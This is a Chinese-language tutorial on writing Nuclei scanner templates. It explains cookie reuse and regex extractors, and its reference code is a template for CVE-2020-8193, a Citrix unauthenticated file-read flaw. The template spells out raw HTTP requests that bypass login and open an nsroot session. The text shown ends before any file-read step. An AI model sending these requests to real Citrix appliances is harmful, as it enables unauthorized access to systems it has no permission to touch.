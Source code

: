 <a name="kvIPJ"></a>
## 变更记录
记录每次修订的内容，方便追溯。

| **版本号** | **作者** | **修订内容** | **发布日期** |
| --- | --- | --- | --- |
| 1.0 | 51pwn | 发布 | 2022-04-26 |


<a name="ytLiZ"></a>
# 1 Web Http经典案例
<a name="KWOwl"></a>
## 1.1 提取关键值作为下一次请求数据，使用cookie
**关键点说明**<br />1、自动获取cookie，并在下一次请求中使用，关键代码：cookie-reuse:true<br />2、从body中通过正则表达式抽取数据，并命名为：randkey，作为后续请求的数据，关键代码：internal: true表示要对后续请求数据进行替换，该部分的代码示例如下：
```
    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        group: 0
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"
```
**参考代码**
```
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

requests:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
```